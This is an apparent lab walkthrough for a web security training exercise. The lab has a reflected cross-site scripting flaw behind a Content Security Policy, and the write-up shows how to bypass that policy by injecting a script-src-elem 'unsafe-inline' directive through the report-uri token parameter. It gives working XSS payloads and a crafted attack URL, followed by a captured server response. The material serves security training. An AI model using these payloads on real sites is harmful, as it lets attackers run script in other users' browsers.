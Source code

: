 

#### Reflected XSS protected by CSP, with CSP bypass

> This lab uses CSP and contains a reflected XSS vulnerability.
>
> To solve the lab, perform a cross-site scripting attack that bypasses the CSP and calls the alert function.
>
> Please note that the intended solution to this lab is only possible in Chrome. 
> `Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=`

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        <p>
                            Enter the following into the search box:
                        </p>
                        <code class="code-scrollable">&lt;img src=1 onerror=alert(1)&gt;</code>
                    </li>
                    <li>
                        Observe that the payload is reflected, but the CSP prevents the script from executing.
                    </li>
                    <li>
                        In Burp Proxy, observe that the response contains a <code>Content-Security-Policy</code> header, and the <code>report-uri</code> directive contains a parameter called <code>token</code>. Because you can control the <code>token</code> parameter, you can inject your own CSP directives into the policy.
                    </li>
                    <li>
                        <p>
                            Visit the following URL, replacing <code>your-lab-id</code> with your lab ID:
                        </p>
                        <code class="code-scrollable">https://your-lab-id.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&amp;token=;script-src-elem%20%27unsafe-inline%27</code>
                    </li>
                </ol>
                <p>
                    The injection uses the <code>script-src-elem</code> directive in CSP. This directive allows you to target just <code>script</code> elements. Using this directive, you can overwrite existing <code>script-src</code> rules enabling you to inject <code>unsafe-inline</code>, which allows you to use inline scripts.
                </p>
            </div>
        </div>

Response

```http
HTTP/1.0 200 Connection established
Set-Cookie: session=gb01XL778lDvUefQEuOqsSN8XZqEKYKC; Secure; HttpOnly; SameSite=None
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=;script-src-elem%20%27unsafe-inline%27","violated-directive":"script-src"}}
Connection: close
Content-Length: 0
```
